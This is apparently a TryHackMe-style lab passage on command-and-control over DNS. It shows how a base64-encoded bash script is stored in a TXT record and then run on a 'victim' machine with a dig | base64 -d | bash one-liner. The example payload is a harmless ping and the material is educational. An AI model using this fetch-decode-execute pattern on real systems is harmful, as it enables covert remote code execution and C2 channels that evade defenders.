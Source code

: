 ## C2Â Communications overÂ DNS

C2Â frameworks use theÂ DNSÂ protocol for communication, such as sending a command execution request and receiving execution results over theÂ DNSÂ protocol. They also use the TXTÂ DNSÂ record to run a dropper to download extra filesÂ on a victim machine.Â This section simulates how to execute a bash script over theÂ DNSÂ protocol. We will be using the web interface to add aÂ TXTÂ DNSÂ record to theÂ tunnel.comÂ domain name.

For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXTÂ DNSÂ record of the domain name you control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:  

```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet toÂ test.tunnel.com. Note that the script is an example, which could be replaced with any content. NowÂ save the script to/tmp/script.shÂ using your favorite text editor and thenÂ encode it with Base64 as follows,

Encode the Bash Script as Base64 Representation  

```markup
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```

Now that we have the Base64 representation of our script, we add it as aÂ TXTÂ DNSÂ record to the domain we control, which in this case, theÂ tunnel.com. You can add it through the web interface we provideÂ http://10.10.39.16/Â orÂ https://10-10-39-16.p.thmlabs.com/Â without using aÂ VPN.Â 

Once we added it, let's confirm that we successfully created the script'sÂ DNSÂ record byÂ asking the localÂ DNSÂ server to resolve the TXT record of theÂ script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step.Â   

![DNS Server - Resolving TXT Record](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/38b87cfbbe254bef1e98f0dffa49451f.png)  

Confirm the TXT record is Added Successfully  

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com
```

We used the dig command to check the TXT record of ourÂ DNSÂ record that we added in the previous step! As a result, we can get the content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,

Execute the Bash Script!  

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```

Note that we cleaned the output before executing the script usingÂ trÂ and deleting any double quotesÂ ". Then, we decoded the Base64 text representation usingÂ base64 -dÂ and finally passed the content to theÂ bashÂ command to execute.Â 
